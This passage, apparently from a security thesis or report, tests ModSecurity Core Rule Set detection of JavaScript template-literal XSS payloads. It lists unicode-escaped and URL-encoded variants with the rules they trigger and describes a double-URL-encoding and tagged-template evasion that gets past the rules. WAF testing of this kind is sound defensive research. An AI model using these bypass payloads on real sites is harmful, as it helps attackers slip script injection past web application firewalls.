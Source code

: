 unicode tests:
\begin{lstlisting}[style=ruleStyle, language=XML, caption=unicode tests \$\{`alert`\}, label={lst:unicodetests}]
<payload>${`alert`}</payload>
<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${`alert`}"</MatchedData>

<payload>\u0024{alert`}</payload>
<message>"Possible Unicode character bypass detected"</message>
<file>"/rules/REQUEST-920-PROTOCOL-ENFORCEMENT.conf"</file>
<fileDetails>[line "1263"] [id "920540"]<fileDetails>
<MatchedData>"x5cu0024"</MatchedData>

<payload>encodeURIComponent('\u0024{`alert`}')</payload>
<payload>%24%7B%60alert%60%7D</payload>
<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${`alert`}"</MatchedData>
\end{lstlisting}

url encoding: the modsecurity firewall detects url encoding. when sending example requests in plain and urlencoded forms, the requests get blocked. (See Listing~\ref{lst:urlencodedexampleblocked})

\begin{lstlisting}[style=ruleStyle, language=XML, caption=url encoded example blocked, label={lst:urlencodedexampleblocked}]
<payload>alert(`${new Date()}`)</payload>
<payload>alert(%60%24%7Bnew%20Date()%7D%60)</payload>
<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${new date()}"</MatchedData>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"alert("</MatchedData>
\end{lstlisting}

on usage of double url encoding (see Listing~\ref{lst:doubleurlencodedexample}), the above mentioned rule with message  does no longer trigger. the characters \verb|alert(| still trigger . substituting \verb|alert()| with \verb|prompt()| and using a tagged template literal instead of calling with \verb|()| will allow to successfully pass a payload that evades detection and is able to display the template parameter. however, this payload would not be valid unless the target performs multiple step url decoding.


\begin{lstlisting}[style=basicStyle, caption=url encoded example pass, label={lst:doubleurlencodedexample}]
encodeURIComponent(encodeURIComponent('alert(`${new Date()}`)'))
=
alert(%2560%2524%257Bnew%2520Date()%257D%2560)
\end{lstlisting}
